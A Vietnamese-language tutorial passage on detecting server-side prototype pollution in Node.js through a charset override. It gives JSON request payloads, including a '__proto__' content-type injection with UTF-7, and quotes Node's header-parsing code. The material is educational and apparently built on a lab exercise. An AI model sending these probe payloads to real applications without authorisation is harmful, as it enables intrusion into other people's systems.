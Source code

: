 Điều này cho thấy, dev đã dự đoán rằng input có thể không chứa thuộc tính `charset` rõ ràng, nên đã triển khai một chuỗi null thya thế. Điều này có thể dẫn tới lỗ hổng.

Nếu bạn tìm thấy một đối tượng có thuộc tính hiển thị trong phản hồi, bạn có thể sử dụng đối tượng này để thăm dò source. 

Ví dụ: sử dụng mã hóa UTF-7 và nguồn JSON.
1. Thêm một chuỗi mã hóa UTF-7 tùy ý vào thuộc tính được phản ánh trong phản hồi. Ví dụ: `foo` trong UTF-7 là `+AGYAbwBv-`

```json
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"+AGYAbwBv-"
}
```

2. Gửi request, máy chủ sẽ không sử dụng mã hóa UTF-7 theo mặc định, do đó, chuỗi này sẽ xuất hiện trong phản hồi ở dạng được mã hóa.
3. Cố gắng làm ô nhiễm nguyên mẫu bằng một thuộc tính `content-type` chỉ định rõ ràng bộ ký tự UTF-7

```json
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"default",
    "__proto__":{
        "content-type": "application/json; charset=utf-7"
    }
}
```
4. Lặp lại request đầu tiên. Nếu làm ô nhiễm thành công, chuỗi UTF-7 bây giờ sẽ được giải mã trong phản hồi.

```json
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"foo"
}
```


Trong Nodejs, do một lỗi trong mô-đun `_http_incoming`, điều trên vẫn hoạt động ngay cả khi tiêu đề thực của yêu cầu `Content-type` bao gồm thuộc tính `charset` riêng của nó. Để tránh ghi đề các thuộc tính khi một request chứa các header trùng lặp, hàm `_addHeaderLine()` sẽ kiểm tra xem không có thuộc tính nào tồn tại cùng một khóa trước khi chuyển thuộc tính sang một đối tượng mới
```js
IncomingMessage.prototype._addHeaderLine = _addHeaderLine;
function _addHeaderLine(field, value, dest) {
    // ...
    } else if (dest[field] === undefined) {
        // Drop duplicates
        dest[field] = value;
    }
}
```
{: .notice--danger}
